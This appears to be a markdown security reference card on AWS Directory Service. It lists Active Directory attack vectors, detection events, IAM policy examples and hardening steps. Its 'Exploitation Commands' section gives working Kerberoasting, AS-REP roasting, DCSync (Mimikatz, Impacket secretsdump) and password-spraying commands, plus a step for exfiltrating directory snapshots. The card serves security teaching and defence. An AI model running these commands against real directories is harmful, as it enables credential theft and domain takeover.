

#  AWS Directory Service Security



> **Category**: IDENTITY

AWS Directory Service provides managed Active Directory (AWS Managed Microsoft AD, AD Connector, Simple AD). Attackers target domain trusts, credential harvesting, Kerberos attacks, and Group Policy manipulation.

## Quick Stats

| Risk Level | Directory Options | On-Prem Integration | AWS Integration |
| --- | --- | --- | --- |
| **CRITICAL** | **3 Types** | **Trust** | **SSO** |

## Service Overview

### AWS Managed Microsoft AD

Fully managed Microsoft Active Directory in AWS. Supports trust relationships with on-premises AD, Group Policy, LDAPS, and Kerberos authentication.

> Attack note: Full AD attack surface including Kerberoasting, pass-the-hash, and DCSync

### AD Connector

Proxy service that redirects directory requests to on-premises AD without caching. Used for AWS SSO, WorkSpaces, and other AWS services.

> Attack note: Compromising AD Connector can expose on-premises credentials to AWS

### Simple AD

Samba 4 based directory for basic AD features. Lower cost but limited functionality. No trust relationships or advanced AD features.

> Attack note: Simpler but still vulnerable to credential attacks and enumeration

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

Directory Service is critical infrastructure with domain admin access enabling full environment compromise. Trust relationships can pivot attacks between AWS and on-premises. Contains authentication credentials for all domain users.

## ⚔️ Attack Vectors

### Kerberos Attacks

- Kerberoasting - extract service account hashes
- AS-REP Roasting - no preauth users
- Golden Ticket - forge TGTs with KRBTGT hash
- Silver Ticket - forge service tickets
- Pass-the-ticket - reuse Kerberos tickets

### Credential Attacks

- Password spraying against domain
- NTLM relay attacks
- DCSync - replicate password hashes
- LSASS credential dumping
- Group Policy Preferences passwords

## ⚠️ Misconfigurations

### Directory Issues

- Weak domain admin passwords
- No LDAPS enforcement (plain LDAP)
- Kerberos unconstrained delegation
- Service accounts with DA privileges
- Password policies too lenient

### Trust & Integration Issues

- Two-way trusts with on-premises AD
- SID history filtering disabled
- Selective auth not configured
- Over-privileged service accounts for trusts
- Shared admin accounts across domains

## 🔍 Enumeration

**List Directories**
```bash
aws ds describe-directories
```

**Get Directory Details**
```bash
aws ds describe-directories --directory-ids d-1234567890
```

**List Trust Relationships**
```bash
aws ds describe-trusts --directory-id d-1234567890
```

**List Domain Controllers**
```bash
aws ds describe-domain-controllers --directory-id d-1234567890
```

**Get Snapshot Info**
```bash
aws ds describe-snapshots --directory-id d-1234567890
```

## 👑 Domain Attacks

### Privilege Escalation

- Abuse ACLs on AD objects (WriteDACL)
- Add users to privileged groups
- Modify GPO for code execution
- Exploit delegation misconfigurations
- Resource-based constrained delegation

### Persistence Techniques

- Create hidden admin accounts
- Skeleton key injection
- DCShadow - rogue domain controller
- AdminSDHolder backdoor
- SID History injection

> **Critical:** Domain Admin access enables complete control over all joined systems, AWS services using directory, and potentially on-premises resources.

## 🔗 Trust Relationship Abuse

### Trust Attacks

- Enumerate trusts for pivot paths
- Request cross-domain TGTs
- SID history spoofing across trusts
- Forge inter-realm tickets
- Exploit transitivity in forest trusts

### On-Prem to Cloud Pivot

- Compromise on-prem DA, pivot to AWS
- Harvest credentials for AWS SSO
- Access WorkSpaces as domain users
- Exploit AD Connector for credential theft
- Use trusted domain for lateral movement

## 🛡️ Detection

### CloudTrail Events

- CreateTrust - new trust relationship
- CreateSnapshot - directory backup created
- ResetUserPassword - password reset
- ShareDirectory - directory shared
- EnableRadius - RADIUS configured

### Indicators of Compromise

- Multiple failed authentication attempts
- Kerberos service ticket requests (4769)
- DC replication from non-DC (DCSync)
- New admin accounts created
- Trust relationship modifications

## Exploitation Commands

**Enumerate Domain (from joined instance)**
```bash
# PowerShell - Get domain info
Get-ADDomain
Get-ADDomainController -Filter *
Get-ADTrust -Filter *
```

**Kerberoasting Attack**
```bash
# Rubeus - Extract service account hashes
.\\Rubeus.exe kerberoast /outfile:hashes.txt

# Impacket from Linux
GetUserSPNs.py -request -dc-ip 10.0.0.5 corp.local/user:pass
```

**AS-REP Roasting**
```bash
# Find users with no preauth
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}

# Rubeus
.\\Rubeus.exe asreproast /outfile:asrep.txt
```

**DCSync Attack**
```bash
# Mimikatz - dump all hashes
lsadump::dcsync /domain:corp.local /all /csv

# Impacket
secretsdump.py corp.local/admin:pass@dc01.corp.local
```

**Password Spray via AWS**
```bash
# Spray against WorkSpaces/AWS SSO
for user in $(cat users.txt); do
  aws workspaces describe-workspaces --directory-id d-xxx \\
    --user-name $user 2>/dev/null && echo "Valid: $user"
done
```

**Extract Directory Snapshot**
```bash
# Create snapshot for offline analysis
aws ds create-snapshot --directory-id d-1234567890 --name "backup"

# Then restore to attacker-controlled environment
```

## Policy Examples

### ❌ Dangerous - Full Directory Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "ds:*",
    "Resource": "*"
  }]
}
```

*Full control enables creating trusts, resetting passwords, and taking snapshots*

### ✅ Secure - Read-Only Directory Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ds:Describe*",
      "ds:List*",
      "ds:Get*"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access for monitoring without modification capabilities*

### ❌ Dangerous - Trust Management

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ds:CreateTrust",
      "ds:DeleteTrust",
      "ds:VerifyTrust"
    ],
    "Resource": "*"
  }]
}
```

*Trust management allows creating paths for lateral movement*

### ✅ Secure - Specific Directory Only

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ds:DescribeDirectories",
      "ds:DescribeDomainControllers"
    ],
    "Resource": "arn:aws:ds:us-east-1:123456789012:directory/d-1234567890"
  }]
}
```

*Access restricted to specific directory resource*

## Defense Recommendations

### 🔐 Enable LDAPS

Require LDAPS for all directory communications to prevent credential interception.

```bash
aws ds enable-ldaps \\
  --directory-id d-1234567890 \\
  --type Client
```

### 🚫 Restrict Trust Relationships

Use one-way trusts where possible. Enable SID filtering and selective authentication.

### 🔒 Enforce Strong Password Policy

Configure domain password policy with complexity, length, and history requirements.

```bash
# PowerShell - Set policy
Set-ADDefaultDomainPasswordPolicy -Identity corp.local \\
  -MinPasswordLength 14 -ComplexityEnabled $true
```

### 📝 Monitor Authentication Events

Enable advanced auditing and forward to SIEM for Kerberos attack detection.

### 🔑 Protect Service Accounts

Use gMSA accounts, avoid SPNs on privileged accounts, rotate passwords regularly.

### 📊 Disable Unused Features

Disable NTLM where possible, remove unconstrained delegation, audit ACLs regularly.

---

*AWS Directory Service Security Card*

*Always obtain proper authorization before testing*
